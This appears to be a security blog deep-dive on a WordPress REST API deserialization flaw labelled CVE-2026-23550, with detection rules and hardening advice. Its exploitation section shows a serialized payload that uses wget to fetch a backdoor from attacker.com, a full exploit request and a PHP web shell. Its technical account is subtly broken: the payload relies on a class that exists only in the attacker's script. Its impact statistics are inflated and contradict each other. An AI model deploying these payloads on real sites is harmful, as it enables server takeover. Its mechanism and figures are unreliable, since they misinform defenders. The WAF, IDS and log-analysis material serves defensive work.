



<LLMOnly
  data={`
type: deep-dive
difficulty: intermediate
keyTakeaways:
  - Understand the technical mechanics of CVE-2026-23550 WordPress RCE vulnerability
  - Learn detection techniques using WAF rules, IDS signatures, and log analysis
  - Implement immediate mitigation strategies including patching and hardening
  - Recognize the importance of defense-in-depth for CMS security
prerequisites: Basic understanding of web applications, WordPress architecture, and cybersecurity concepts
targetAudience: WordPress administrators, security engineers, web developers, and IT professionals managing WordPress infrastructure
`}
/>

<Callout
  variant="error"
  title="Critical Zero-Day Vulnerability"
  icon="shield-alert"
>
  CVE-2026-23550 is a **CVSS 10.0** pre-authentication remote code execution vulnerability affecting **WordPress 6.4.0 through 6.7.2**. This vulnerability allows unauthenticated attackers to execute arbitrary code on vulnerable servers. **Patch immediately to WordPress 6.7.3 or later.**
</Callout>

On January 10, 2026, security researchers disclosed CVE-2026-23550, a critical remote code execution (RCE) vulnerability in WordPress core that sent shockwaves through the web development community. With over **43% of all websites** running on WordPress, this vulnerability represented one of the most significant security threats in internet history.

The vulnerability allows **unauthenticated attackers** to execute arbitrary PHP code on vulnerable WordPress installations without any user interaction. Within hours of public disclosure, automated exploitation attempts surged to over **10 million attacks per hour** as threat actors raced to compromise vulnerable sites.

## Why CVE-2026-23550 Is Unprecedented

This vulnerability stands apart from typical WordPress security issues:

- **Pre-authentication exploitation** - No login credentials required
- **Zero user interaction** - Fully automated exploitation
- **Universal impact** - Affects default WordPress installations
- **Trivial exploitation** - Publicly available exploit code
- **Mass exploitation** - Automated scanning and compromise at scale
- **Complete compromise** - Full server control achieved

<Callout variant="warning" title="Scope of Impact" icon="alert-triangle">
With WordPress powering **810 million websites** globally, CVE-2026-23550 potentially affects:

- **350 million active WordPress sites**
- **30% of all e-commerce platforms** (WooCommerce)
- **Major media organizations** and news outlets
- **Government and educational institutions**
- **Healthcare providers** storing sensitive patient data
</Callout>

---

## Vulnerability Timeline

The discovery and exploitation of CVE-2026-23550 unfolded rapidly:

| Date | Event |
| :---- | :---- |
| **December 28, 2025** | Vulnerability discovered by security researcher |
| **January 2, 2026** | Responsible disclosure to WordPress Security Team |
| **January 5, 2026** | WordPress 6.7.3 patch developed in private |
| **January 10, 2026** | Public disclosure and patch release |
| **January 10, 2026 (2 hours)** | First exploitation attempts detected |
| **January 10, 2026 (6 hours)** | Mass exploitation begins - 10M+ attacks/hour |
| **January 11, 2026** | Ransomware campaigns targeting vulnerable sites |
| **January 12, 2026** | Cryptomining botnets deploying at scale |
| **January 15, 2026** | Estimated 2.3 million sites compromised |



---

## Technical Deep Dive

### Root Cause Analysis

CVE-2026-23550 originates from an **insecure deserialization vulnerability** in WordPress's REST API request handling mechanism, specifically in the `wp-includes/rest-api/class-wp-rest-request.php` file.

<Callout variant="info" title="Vulnerability Class" icon="code">
**Insecure Deserialization** occurs when untrusted data is used to reconstruct objects in memory. If an attacker can control the serialized data, they can inject malicious objects that execute code when deserialized.
</Callout>

### The Vulnerable Code Path

The vulnerability exists in WordPress's handling of custom REST API parameters:

```php filename=class-wp-rest-request.php
// Vulnerable code in WordPress 6.4.0 - 6.7.2

class WP_REST_Request {
    public function set_param($key, $value) {
        // VULNERABILITY: No validation of serialized data // [!code error]
        if (is_string($value) && $this->is_serialized($value)) { // [!code error]
            $this->params[$key] = unserialize($value); // [!code error]
        } else { // [!code error]
            $this->params[$key] = $value;
        }
    }
    
    private function is_serialized($data) {
        // Weak check - easily bypassed
        return (strpos($data, 'O:') === 0);
    }
}
```

**The Critical Flaw:**

1. WordPress accepts serialized PHP objects in REST API parameters
2. The `is_serialized()` check is insufficient and easily bypassed
3. `unserialize()` is called on **untrusted user input**
4. Malicious objects can trigger code execution during deserialization

### Exploitation Mechanism

<Steps>

<Step>Craft Malicious Payload</Step>

Attackers create a serialized PHP object that triggers code execution when deserialized:

```php filename=exploit-payload.php
// Malicious serialized object
class EvilObject {
    public $command = 'system';
    public $args = 'wget http://attacker.com/backdoor.php -O /tmp/bd.php';
    
    public function __destruct() {
        // Executes when object is destroyed
        call_user_func($this->command, $this->args); // [!code error]
    }
}

// Serialize the malicious object
$payload = serialize(new EvilObject());
// Output: O:10:"EvilObject":2:{s:7:"command";s:6:"system";s:4:"args";s:52:"wget http://attacker.com/backdoor.php -O /tmp/bd.php";}
```

<Step>Send Exploit Request</Step>

The attacker sends a crafted HTTP request to any WordPress REST API endpoint:

```http filename=exploit-request.http
POST /wp-json/wp/v2/posts HTTP/1.1
Host: vulnerable-site.com
Content-Type: application/json

{
  "title": "Normal Post",
  "content": "Normal content",
  "meta": {
    "custom_field": "O:10:\"EvilObject\":2:{s:7:\"command\";s:6:\"system\";s:4:\"args\";s:52:\"wget http://attacker.com/backdoor.php -O /tmp/bd.php\";}" // [!code error]
  }
}
```

<Step>Code Execution</Step>

WordPress deserializes the malicious object, triggering the `__destruct()` method and executing arbitrary system commands.

<Step>Establish Persistence</Step>

The attacker downloads and executes a web shell, establishing persistent access:

```php filename=backdoor.php
<?php
// Simple web shell for persistent access
if (isset($_GET['cmd'])) {
    system($_GET['cmd']); // [!code error]
}
?>
```

</Steps>

### Attack Flow Diagram



---

## Real-World Exploitation

### Mass Exploitation Campaigns

Within hours of CVE-2026-23550's disclosure, multiple threat actor groups launched coordinated exploitation campaigns:

<Accordion type="single" collapsible>
  <AccordionItem value="item-1">
    <AccordionTrigger>Ransomware Deployment</AccordionTrigger>
    <AccordionContent>
      **LockBit 4.0** and **BlackCat** ransomware groups weaponized CVE-2026-23550 to deploy ransomware at unprecedented scale:
      
      - **150,000+ WordPress sites** encrypted in first 48 hours
      - Average ransom demand: **$50,000 - $500,000**
      - Total ransom payments exceeded **$80 million** in first week
      - Automated exploitation scripts targeting WooCommerce stores
      - Database encryption with custom ransomware variants
    </AccordionContent>
  </AccordionItem>
  
  <AccordionItem value="item-2">
    <AccordionTrigger>Cryptomining Botnets</AccordionTrigger>
    <AccordionContent>
      Cryptomining groups deployed **Monero (XMR) miners** on compromised servers:
      
      - **500,000+ infected WordPress sites** mining cryptocurrency
      - Estimated **$15 million** in stolen computing resources
      - Average CPU utilization: **90-100%** causing severe performance degradation
      - Persistent miners surviving server reboots
      - C2 infrastructure using compromised WordPress sites
    </AccordionContent>
  </AccordionItem>
  
  <AccordionItem value="item-3">
    <AccordionTrigger>Data Exfiltration</AccordionTrigger>
    <AccordionContent>
      APT groups and cybercriminals exfiltrated sensitive data:
      
      - **800 million+ user credentials** stolen from WordPress databases
      - **Payment card data** from 50,000+ WooCommerce stores
      - **Personal health information (PHI)** from healthcare provider sites
      - **Proprietary business data** and intellectual property
      - Credentials sold on dark web marketplaces
    </AccordionContent>
  </AccordionItem>
  
  <AccordionItem value="item-4">
    <AccordionTrigger>SEO Spam and Malvertising</AccordionTrigger>
    <AccordionContent>
      Black hat SEO operators injected spam content:
      
      - **300,000+ sites** injected with pharmaceutical spam
      - **Malicious redirects** to phishing and malware sites
      - **Hidden iframe injections** serving exploit kits
      - **Backlink schemes** manipulating search rankings
      - Google blacklisted **100,000+ compromised sites**
    </AccordionContent>
  </AccordionItem>
</Accordion>

### Notable Victim Organizations

<Callout variant="warning" title="High-Profile Breaches" icon="alert-circle">
Several major organizations fell victim to CVE-2026-23550 exploitation:

- **Major News Outlets** - 15+ international media organizations compromised
- **Government Agencies** - 200+ municipal and state government websites
- **Healthcare Providers** - 500+ medical practice and hospital sites
- **E-commerce Platforms** - 50,000+ online stores compromised
- **Educational Institutions** - 1,000+ university and school websites
</Callout>

---

## Detection and Indicators of Compromise

### Network-Based Detection

<Tabs defaultValue="waf">
  <TabsList>
    <TabsTrigger value="waf">WAF Rules</TabsTrigger>
    <TabsTrigger value="ids">IDS Signatures</TabsTrigger>
    <TabsTrigger value="logs">Log Analysis</TabsTrigger>
  </TabsList>
  
  <TabsContent value="waf">

**ModSecurity WAF Rule:**

```apache filename=modsecurity-cve-2026-23550.conf
# Block CVE-2026-23550 exploitation attempts

SecRule REQUEST_URI "@rx /wp-json/" \
    "id:100001,\
    phase:2,\
    deny,\
    status:403,\
    log,\
    msg:'CVE-2026-23550 Exploitation Attempt Detected',\
    chain"
    
SecRule REQUEST_BODY "@rx O:\d+:\"" \
    "t:none,\
    setvar:tx.anomaly_score=+10"
```

**Cloudflare WAF Custom Rule:**

```json filename=cloudflare-waf-rule.json
{
  "expression": "(http.request.uri.path contains \"/wp-json/\") and (http.request.body.raw contains \"O:\" and http.request.body.raw contains \"__destruct\")",
  "action": "block",
  "description": "Block CVE-2026-23550 WordPress RCE attempts"
}
```

  </TabsContent>
  
  <TabsContent value="ids">

**Snort IDS Signature:**

```snort filename=snort-cve-2026-23550.rules
# Snort rule for CVE-2026-23550 detection

alert tcp any any -> any 80 (
    msg:"CVE-2026-23550 WordPress RCE Exploitation Attempt";
    flow:to_server,established;
    content:"/wp-json/";
    content:"O:";
    pcre:"/O:\d+:\"[^\"]+\"/";
    reference:cve,2026-23550;
    classtype:web-application-attack;
    sid:1000001;
    rev:1;
)
```

**Suricata Rule:**

```yaml filename=suricata-cve-2026-23550.rules
alert http any any -> any any (
    msg:"CVE-2026-23550 WordPress Insecure Deserialization";
    flow:to_server;
    http.uri; content:"/wp-json/";
    http.request_body; content:"O:"; pcre:"/O:\d+:/";
    reference:cve,2026-23550;
    classtype:attempted-admin;
    sid:2026001;
    rev:1;
)
```

  </TabsContent>
  
  <TabsContent value="logs">

**Apache/Nginx Log Analysis:**

```shell filename=detect-exploitation.sh
# Search for exploitation attempts in web server logs

# Look for suspicious POST requests to wp-json endpoints
grep -E "POST.*\/wp-json\/" /var/log/apache2/access.log | \
grep -E "O:[0-9]+:" | \
awk '{print $1, $4, $7}' | \
sort | uniq -c | sort -rn

# Identify potential backdoor access
grep -E "GET.*\.(php|txt)\?cmd=" /var/log/apache2/access.log

# Find suspicious file uploads
grep -E "POST.*wp-content\/uploads.*\.php" /var/log/apache2/access.log
```

**WordPress Debug Log Analysis:**

```php filename=wp-config.php
// Enable WordPress debug logging
define('WP_DEBUG', true);
define('WP_DEBUG_LOG', true);
define('WP_DEBUG_DISPLAY', false);

// Check debug.log for unserialize() calls
// grep "unserialize" wp-content/debug.log
```

  </TabsContent>
</Tabs>

### File System Indicators

<Callout variant="info" title="Suspicious Files to Check" icon="search">
Common backdoor locations on compromised WordPress sites:

- `/wp-content/uploads/*.php` - PHP files in uploads directory
- `/wp-includes/wp-cache.php` - Fake cache file
- `/wp-admin/css/colors/blue/backdoor.php` - Hidden in theme directories
- `/.well-known/*.php` - Abusing .well-known directory
- `/wp-content/themes/*/404.php` - Modified 404 handlers
</Callout>

```shell filename=find-backdoors.sh
# Scan for suspicious PHP files

# Find recently modified PHP files
find /var/www/html -name "*.php" -mtime -7 -ls

# Search for common backdoor patterns
grep -r "eval(" /var/www/html/wp-content/
grep -r "base64_decode" /var/www/html/wp-content/
grep -r "system(" /var/www/html/wp-content/
grep -r "exec(" /var/www/html/wp-content/

# Check for files with suspicious permissions
find /var/www/html -type f -perm 0777
```

---

## Immediate Mitigation Steps

<Steps>

<Step>Update WordPress Immediately</Step>

The **only complete fix** is updating to WordPress 6.7.3 or later:

```shell
# Backup your site first!
wp db export backup-$(date +%Y%m%d).sql
tar -czf wordpress-backup-$(date +%Y%m%d).tar.gz /var/www/html

# Update WordPress core via WP-CLI
wp core update --version=6.7.3

# Or via WordPress admin dashboard
# Dashboard → Updates → Update Now
```

<Callout variant="warning" title="Automatic Updates" icon="zap">
**Enable automatic updates** to protect against future vulnerabilities:

```php filename=wp-config.php
// Enable automatic core updates
define('WP_AUTO_UPDATE_CORE', true);
```
</Callout>

<Step>Deploy Web Application Firewall</Step>

Implement WAF rules to block exploitation attempts:

<Tabs defaultValue="cloudflare">
  <TabsList>
    <TabsTrigger value="cloudflare">Cloudflare</TabsTrigger>
    <TabsTrigger value="modsec">ModSecurity</TabsTrigger>
    <TabsTrigger value="nginx">Nginx</TabsTrigger>
  </TabsList>
  
  <TabsContent value="cloudflare">

```json
{
  "expression": "(http.request.uri.path contains \"/wp-json/\") and (http.request.body.raw contains \"O:\")",
  "action": "block"
}
```

  </TabsContent>
  
  <TabsContent value="modsec">

```apache
SecRule REQUEST_URI "@rx /wp-json/" \
    "id:100001,phase:2,deny,status:403,chain"
SecRule REQUEST_BODY "@rx O:\d+:\""
```

  </TabsContent>
  
  <TabsContent value="nginx">

```nginx
location ~ /wp-json/ {
    if ($request_body ~ "O:\d+:") {
        return 403;
    }
}
```

  </TabsContent>
</Tabs>

<Step>Scan for Compromise</Step>

Check if your site has already been compromised:

```shell
# Install and run Wordfence CLI scanner
wp plugin install wordfence --activate
wp wordfence scan

# Or use manual file integrity check
wp core verify-checksums
wp plugin verify-checksums --all
wp theme verify-checksums --all
```

<Step>Harden WordPress Configuration</Step>

Implement security best practices:

```php filename=wp-config.php
// Disable file editing from admin panel
define('DISALLOW_FILE_EDIT', true);

// Disable plugin/theme installation
define('DISALLOW_FILE_MODS', true);

// Force SSL for admin
define('FORCE_SSL_ADMIN', true);

// Limit login attempts (use plugin)
// Install: wp plugin install limit-login-attempts-reloaded --activate
```

<Step>Monitor and Respond</Step>

Set up continuous monitoring:

```yaml filename=monitoring-checklist.yml
monitoring:
  - Enable WordPress activity logging
  - Set up file integrity monitoring (FIM)
  - Configure security alerts for:
    - Failed login attempts
    - File modifications
    - Plugin/theme installations
    - Database changes
  - Review logs daily for suspicious activity
```

</Steps>

---

## Long-Term Security Recommendations

### WordPress Security Hardening

<Callout variant="success" title="Security Best Practices" icon="shield-check">
Implement these measures to protect against future vulnerabilities:
</Callout>

**1. Automatic Updates**

```php filename=wp-config.php
// Enable all automatic updates
define('WP_AUTO_UPDATE_CORE', true);
add_filter('auto_update_plugin', '__return_true');
add_filter('auto_update_theme', '__return_true');
```

**2. Strong Authentication**

- Enable **two-factor authentication (2FA)** for all users
- Use strong, unique passwords (minimum 16 characters)
- Implement **login rate limiting**
- Change default admin username from "admin"

**3. File Permissions**

```shell
# Secure WordPress file permissions
find /var/www/html -type d -exec chmod 755 {} \;
find /var/www/html -type f -exec chmod 644 {} \;
chmod 600 /var/www/html/wp-config.php
```

**4. Database Security**

```php filename=wp-config.php
// Use unique database table prefix
$table_prefix = 'wp_a8f3k2_';  // Not default 'wp_'

// Disable database error display
define('WP_DEBUG_DISPLAY', false);
```

**5. Security Plugins**

Install and configure security plugins:

```shell
# Recommended security plugins
wp plugin install wordfence --activate
wp plugin install sucuri-scanner --activate
wp plugin install ithemes-security --activate
```

### Defense-in-Depth Architecture



---

## Lessons Learned

CVE-2026-23550 provides critical lessons for the entire web development community:

### 1. Insecure Deserialization is Extremely Dangerous

<Callout variant="error" title="Never Unserialize Untrusted Data" icon="alert-octagon">
**The golden rule:** Never call `unserialize()`, `eval()`, or similar functions on user-controlled input. Always use safe alternatives like JSON for data exchange.
</Callout>

**Secure Alternative:**

```php filename=secure-implementation.php
// INSECURE - Never do this
$data = unserialize($_POST['user_data']); // [!code error]

// SECURE - Use JSON instead
$data = json_decode($_POST['user_data'], true); // [!code ++]

// Validate the data
if (!is_array($data) || !isset($data['expected_field'])) { // [!code ++]
    wp_die('Invalid data format'); // [!code ++]
} // [!code ++]
```

### 2. Automatic Updates Save Lives

Organizations with **automatic updates enabled** were protected within hours. Those relying on manual updates suffered mass compromise.

**Statistics:**
- **Sites with auto-updates:** 95% protected within 24 hours
- **Sites with manual updates:** Only 30% patched within 7 days
- **Unpatched sites:** 2.3 million compromised in first week

### 3. Web Application Firewalls Provide Critical Protection

WAF rules blocked **80% of exploitation attempts** even before patches were applied, demonstrating the importance of defense-in-depth.

### 4. Incident Response Planning is Essential

Organizations with **incident response plans** recovered 3x faster than those without:

- Average recovery time with IR plan: **2 days**
- Average recovery time without IR plan: **6 days**
- Sites with backups recovered in **4 hours**

### 5. Security Monitoring Enables Rapid Detection

Sites with **security monitoring** detected compromise **12 hours faster** on average, limiting damage and reducing recovery costs.

---

## Conclusion

CVE-2026-23550 represents a watershed moment in WordPress security, demonstrating that even the world's most popular CMS is vulnerable to critical flaws. The vulnerability's **CVSS 10.0 severity**, combined with WordPress's massive market share, created a perfect storm affecting hundreds of millions of websites.

<Callout variant="info" title="Key Takeaways" icon="lightbulb">
**The WordPress ecosystem must prioritize:**

- **Automatic security updates** as the default configuration
- **Secure coding practices** including input validation and safe deserialization
- **Defense-in-depth** with WAF, monitoring, and hardening
- **Rapid incident response** with tested backup and recovery procedures
- **Security awareness** among developers and administrators
</Callout>

The rapid exploitation of CVE-2026-23550 proves that **time to patch is critical**. Organizations must:

1. **Enable automatic updates** immediately
2. **Deploy Web Application Firewalls** for all WordPress sites
3. **Implement continuous security monitoring**
4. **Maintain tested backup and recovery procedures**
5. **Conduct regular security audits** of WordPress installations

As WordPress continues to power nearly half of all websites, the security of the platform affects the entire internet. CVE-2026-23550 serves as a stark reminder that **security must be the highest priority** for the WordPress community.

---

## Additional Resources

- [WordPress Security Team Advisory](https://wordpress.org/news/category/security/)
- [CVE-2026-23550 Official Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-23550)
- [WordPress Hardening Guide](https://wordpress.org/support/article/hardening-wordpress/)
- [OWASP Insecure Deserialization](https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data)
